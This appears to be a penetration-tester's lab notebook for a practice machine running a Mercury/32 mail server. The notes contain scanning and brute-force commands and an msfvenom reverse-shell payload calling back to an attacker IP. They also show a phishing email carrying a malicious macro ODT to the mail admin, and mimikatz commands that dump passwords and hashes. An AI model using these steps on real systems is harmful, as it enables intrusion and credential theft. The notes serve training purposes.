 ### Enumeration
```
IP=192.168.187.140
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p25,79,105,106,110,135,139,443,445,2224,5040,7680,8000,11100,20001,33006,49664,49665,49666,49667,49668,49669 -A $IP
nc -nvv -w 1 $IP 1-1000 2>&1 | grep -v 'Connection refused'
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 25
	- Mercury/32 smtpd (Mail server account Maiser)
- 79
	- finger Mercury/32 fingerd
- 105
	- Mercury/32 PH addressbook server
- 106
	- Mercury/32 poppass service
- 110
	- Mercury/32 pop3d
- 135
	- RPC
- 139
	- RPC
- 443
	- Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
- 445
	- smb
- 2224
	- Mercury/32 httpd
- 5040
	- unknown
- 7680
	- pando-pub
- 8000
	- Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
- 11100
	- VNC (protocol 3.8)
		- no search sploit exploits
- 20001
	- FileZilla ftpd 0.9.41 beta
- 33006
	- unknown
- 49664
	- RPC
- 49665
	- RPC
- 49666
	- RPC
- 49667
	- RPC
- 49668
	- RPC
- 49669
	- RPC
### Foothold
- 20001
	- ftp anonymous@$IP 20001
		- successful
		- A development type webpage. Could be useful later on
	- `hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://$IP
- RPC/ SMB
	- enum4linux $IP
		- nothing
	- crackmapexec smb $IP -u guest -p "" --rid-brute
		- guest disabled
		- nothing
	- crackmapexec smb $IP -u "" -p "" --pass-pol
		- access denied
	- rpcclient -U '' $IP
		- enumdomusers
		- queryusergroups RID
		- queryuser RID
- 445
	- smbclient -N -L //$IP
		- access denied
	- nmap --script smb-vuln* -p135,139,445 $IP
		- not vulnerable
- 8000
	- Default landing page
		- ![[Pasted image 20240827090815.png]]
	- Team
		- Ela Arwel
		- Charlotte D.
		- Magnus U.
		- Agnes T.
		- Jonas K.
			- Odd description:  SicMundusCreatusEst
		- Martha U.
		- Michael Roe
	- Input boxes are static
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP:8000
			- /team
				- pictures of team folder
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Subomdain Brute force
		- wfuzz -u machine.name -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
		- knockpy machine.name
			- Run directory brute on all found subdomains
	- Vulnerability scan
		- nikto -h http://$IP
- 443
	- Seems to be same as 8000
- 2224
	- Default landing page
		- ![[Pasted image 20240827091522.png]]
	- Versions
	- Directory Brute force
		- dirsearch -u http://$IP
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
	- Subomdain Brute force
		- wfuzz -u machine.name -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
		- knockpy machine.name
			- Run directory brute on all found subdomains
	- Vulnerability scan
		- nikto -h http://$IP
- Mail server 143
	- nc 192.168.120.132 143
		- Login:  tag login jonas@localhost SicMundusCreatusEst
			- Returns OK
		- List boxes: tag LIST "" "*"
			- Returns INBOX
		- Select INBOX:  tag SELECT INBOX
			- Returns OK. 5 exists (emails)
		- Read emails: `tag fetch 1:5 BODY[HEADER] BODY[1]
			- See email from mailadmin@localhost  talking about spreadsheets and documents being stored. Can maybe send malicious odt 
		- Generate macro payload
			- msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.8 LPORT=443 -f hta-psh -o evil.hta
		- Transform.py [[Transform.py]]
			- Change the powershell to the code from evil.hta
			- python3 transform.py
			- Copy the output into macro file
		- Send malicious file
			- sendemail -f jonas@localhost -t mailadmin@localhost -s 192.168.187.140 -u 'Your spreadsheet' -m 'Requested spreadsheet' -a shell.odt
				- Sent successfull
		- Without any edits, receive the shell but not interactable
			- Add  cmd.exe /C   in front of the macro powershell command
### PE
#### Linux
- USERNAME
	- id
	- Root drive directory
	- sudo -l
	- uname -a
	- getcap -r / 2>/dev/null
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
	- Users with console
	- netstat -ano
		- Active ports
	- Directories to check
		- /opt
			- Check GTFO Bins. Treated as SUID
		- /etc/crontab
	- linpeas
		- Possible Exploits
		- Interesting Files
	- pspy64
#### Windows
- USERNAME
	- whoami /all
	- Root drive directory
	- net user USERNAME
		- Check group memberships
	- systeminfo
		- `./wes.py ~/OSCP/boxes/BOX_NAME/systeminfo.txt  > ~/OSCP/boxes/BOX_NAME/systeminfo_exploits.txt`
	- history
		- (Get-PSReadLineOption).HistorySavePath
	- Users with console
	- Services
		- PS1: `Get-Service | Select-Object -Property Name, DisplayName, Status
		- Unquoted
			- cmd
				- wmic service get name,pathname | findstr /i /v "C:\Windows\\" | findstr /i /v """
				- wmic service get name,displayname,pathname
			- PS1
				- Get-CimInstance -ClassName win32_service | Select Name,State,PathName
			- icacls Filepath before .exe
				- Looking for W or F
	- netstat -ano
		- Active ports
	- mimkatz
		- mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
		- mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
### Credentials
### Lessons Learned